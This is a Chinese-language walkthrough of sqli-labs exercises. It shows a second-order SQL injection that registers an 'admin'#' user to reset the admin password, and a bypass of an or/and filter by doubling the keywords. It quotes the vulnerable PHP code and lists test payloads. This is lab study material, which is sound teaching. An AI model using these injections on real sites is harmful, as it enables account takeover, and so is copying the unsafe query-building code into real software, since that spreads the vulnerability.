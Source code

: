 ```php
$username=  mysql_escape_string($_POST['username']) ;
$pass= mysql_escape_string($_POST['password']);
$re_pass= mysql_escape_string($_POST['re_password']);
$sql = "insert into users ( username, password) values(\"$username\", \"$pass\")";
```

在密码修改功能上也使用了转义，

```php
$username= $_SESSION["username"];
$curr_pass= mysql_real_escape_string($_POST['current_password']);
$pass= mysql_real_escape_string($_POST['password']);
$re_pass= mysql_real_escape_string($_POST['re_password']);
$sql = "UPDATE users SET PASSWORD='$pass' where username='$username' and password='$curr_pass' ";
```

可以通过注册一个`admin'#`用户，虽然字符被转义了利用不了，但是可以在密码修改功能里，用户名没有使用转义，拼接进去时可以直接利用


思路：注册一个用户，用户名使用`admin'#`，密码随意，在密码修改时，利用sql语句漏洞来修改用户`admin`的密码


用户`admin'#`在修改密码时，sql语句变成

```sql
UPDATE users SET PASSWORD='$pass' where username='admin'#' and password='$curr_pass' 
```

通过修改用户`admin'#`的密码，来修改用户`admin`的密码


![49](/medias/sqli-labs/49.png)

## Less-25

```php
$id= preg_replace('/or/i',"", $id);
$id= preg_replace('/AND/i',"", $id);
```

查看源码，题目过滤了`or`、`adn`，也可以通过测试的报错语句猜测过滤黑名单


- 传入`?id=1'`，报错：`'1'' LIMIT 0,1`
- 传入`?id=1'#`，不报错
- 传入`?id=1' or 1=1#`，报错：`1=1#' LIMIT 0,1`

后面的注释肯定是生效的，不会因为后面的语句报错

没有从`1'`开始报错，说明`1'`也成功闭合了

没有回显`1'`后的`or`，直接回显了`1=1#`，说明`or`被替换为空了

尝试双写，里一层外一层，在匹配到里面一层并替换为空时，外面一层or成为新的or，也可以适用到其他关键字被一次过滤时

```sql
oorr  >  or
selselectect  >  select  # 在一个select里的任意位置再写一个select
```
